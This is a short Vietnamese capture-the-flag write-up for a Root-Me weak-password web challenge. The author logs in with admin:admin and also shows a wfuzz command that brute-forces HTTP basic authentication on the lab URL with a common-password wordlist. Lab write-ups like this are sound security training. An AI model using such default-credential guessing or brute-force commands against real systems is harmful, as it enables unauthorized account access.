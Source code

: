 ![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/2949e78e-84e4-4c4b-8d0b-b7eaa4b94bcc)

Vì tên lab là mật khẩu yếu nên tôi thử với vài case cơ bản nhất . và trong lần thử đầu tiền với admin:admin =))) được luôn

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/094d5e13-2817-4a8b-bc61-4832d555df15)

Hoặc không thì có thể dùng wfuzz để brute force login form

wfuzz -c -w /usr/share/seclists/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt --basic admin:FUZZ http://challenge01.root-me.org/web-serveur/ch3/
